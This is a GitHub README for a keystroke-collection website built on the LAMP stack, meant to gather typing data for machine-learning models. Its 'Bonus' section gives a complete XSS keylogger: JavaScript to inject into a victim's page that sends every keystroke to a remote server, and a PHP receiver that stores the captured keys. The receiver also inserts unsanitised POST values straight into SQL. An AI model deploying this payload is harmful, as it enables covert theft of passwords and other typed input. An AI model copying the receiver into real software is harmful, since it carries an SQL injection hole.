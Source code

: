 <!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/reevesba/keystrokebiometrics.xyz">
    <img src="assets/img/logo.png" alt="Logo">
  </a>

  <p align="center">
    Collects keystroke data using the LAMP stack. 
    <br />
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://keystrokebiometrics.xyz" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Report Bug</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Request Feature</a>
  </p>
</p>

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project
![assets/img/site-screenshot.png](assets/img/site-screenshot.png)

This simple website was created to collect keystroke data for another one of my projects. For each keystroke, a record is inserted into a MySQL table. Here is the table schema: 

<p align="center">
  <a href="#">
    <img src="assets/img/table-schema.png" alt="Logo">
  </a>
</p>

This will be used to create machine learning models. My current plan is to use this data to create features for an unsupervised learning model where users will hopefully be separated into clusters. In addition, I will be collecting bot keystroke data to create a supervised learning model that will distinguish between bot and not bot.

### Built With
<a href="https://www.linuxfoundation.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/linux.svg" alt="linux">
</a>
<a href="https://www.apache.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/apache.svg" alt="apache">
</a>
<a href="https://www.mysql.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/mysql.svg" alt="mysql">
</a>
<a href="https://www.php.net/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/php.svg" alt="php">
</a>
<a href="https://www.javascript.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/javascript.svg" alt="javascript">
</a>
<a href="https://getbootstrap.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/bootstrap.svg" alt="bootstrap">
</a>

<br />
<br />

<!-- GETTING STARTED -->
## Getting Started
This repository can be cloned onto your server to quickly start collecting user keystroke information.

### Prerequisites
Configure your web server. Here are some useful articles for configuring a LAMP server. Of course, you have other options as well. 

- [Installing LAMP Stack on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-apache-mysql-php-lamp-stack-ubuntu-18-04)
- [Securing Apache on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-secure-apache-with-let-s-encrypt-on-ubuntu-18-04)
[]()

### Installation
1. Clone the repo into your /var/www directory or virtual host directory.
   ```sh
   git clone https://github.com/reevesba/keystrokebiometrics.xyz
   ```
<!-- USAGE EXAMPLES -->
## Usage
The usage of this site is straighforward - use it to collect keystroke data. 

### Bonus
Portions of this project can be used to create a XSS keylogger. <strong>Any malicious use of this software is not recommended and should be for educational purposes only. Be sure to have the permission of all parties involved.</strong>

For an XSS keylogging attack, simply inject the following JavaScript into the victim's DOM.

<details>
<summary>View JavaScript</summary>

```
(function() {
    const url = 'https://yourserverurl/assets/php/keylogger.php?';
    const header = 'Content-type';
    const value = 'application/x-www-form-urlencoded';

    const postData = (event) => {
        // Create request object
        if (window.XMLHttpRequest) {
            var request = new XMLHttpRequest();
        } else {
            var request = new ActiveXObject('Microsoft.XMLHTTP');
        }

        // Setup transmit data
        var uuid = select('#uuid').value;
        var altKey = event.altKey ? 1 : 0;
        var ctrlKey = event.ctrlKey ? 1 : 0;
        var shiftKey = event.shiftKey ? 1 : 0;

        var data = 'uuid=' + uuid + 
                   '&keyEvent=' + event.type + 
                   '&keyCode=' + event.keyCode + 
                   '&keyChar=' + event.key + 
                   '&altKey=' + altKey + 
                   '&ctrlKey=' + ctrlKey + 
                   '&shiftKey=' + shiftKey + 
                   '&timestamp=' + new Date().getTime();

        // Uncomment to enable debugging
        //console.log(data);

        // Send data to server
        request.open('POST', url, true);
        request.setRequestHeader(header, value);
        request.onreadystatechange = function() {
            // Uncomment to enable debugging
            //console.log(this.responseText);
        }
        request.send(data);
    };

    window.addEventListener('keydown', (event) => {
        postData(event);
    });
})()
```
</details>

On your server, create a PHP file to recieve the data. I called mine keylogger.php, but you can name it whatever you want. Just be sure to update the URL in the JavaScript file. Add the following code to the file. As you may notice, you will need to to set a couple of environment variables with your MySQL credentials.

<details>
<summary>View PHP</summary>

```
<?php
// Establish database connection
$username = $_ENV['MYSQL_USER'];
$password = $_ENV['MYSQL_PASSWORD'];

$connection = mysqli_connect('localhost', $username, $password, 'production');

if (mysqli_connect_errno()) {
    echo "Failed to connect to MySQL: " . mysqli_connect_error();
}

// Collect post data
$uuid = $_POST['uuid'];
$keyEvent = $_POST['keyEvent'];
$keyCode = $_POST['keyCode'];
$keyChar = $_POST['keyChar'];
$altKey = $_POST['altKey'];
$ctrlKey = $_POST['ctrlKey'];
$shiftKey = $_POST['shiftKey'];
$timestamp = $_POST['timestamp'];

// Insert data
if (!mysqli_query($connection, "INSERT INTO KEYSTROKE_METRICS (`uuid`, `key_event`, `key_code`, `key_char`, `alt_key`, `ctrl_key`, `shift_key`, `timestamp`) VALUES ('$uuid', '$keyEvent', '$keyCode', '$keyChar', '$altKey', '$ctrlKey', '$shiftKey', '$timestamp')")) {
    echo("Error description: " . mysqli_error($connection));
}

// Close connection
mysqli_close($connection);
?>
```
</details>

<!-- ROADMAP -->
## Roadmap
See the [open issues](https://github.com/reevesba/keystrokebiometrics.xyz/issues) for a list of proposed features (and known issues).

<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/newFeature`)
3. Commit your Changes (`git commit -m 'adding new feature xyz'`)
4. Push to the Branch (`git push origin feature/newFeature`)
5. Open a Pull Request

<!-- LICENSE -->
## License
Distributed under the GPLv3 License. See `LICENSE` for more information.

<!-- CONTACT -->
## Contact
Bradley Reeves - reevesbra@outlook.com

Project Link: [https://github.com/reevesba/keystrokebiometrics.xyz](https://github.com/reevesba/keystrokebiometrics.xyz)

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[contributors-url]: https://github.com/reevesba/keystrokebiometrics.xyz/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[forks-url]: https://github.com/reevesba/keystrokebiometrics.xyz/network/members
[stars-shield]: https://img.shields.io/github/stars/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[stars-url]: https://github.com/reevesba/keystrokebiometrics.xyz/stargazers
[issues-shield]: https://img.shields.io/github/issues/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[issues-url]: https://github.com/reevesba/keystrokebiometrics.xyz/issues
[license-shield]: https://img.shields.io/github/license/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[license-url]: https://github.com/reevesba/keystrokebiometrics.xyz/blob/master/LICENSE.txt
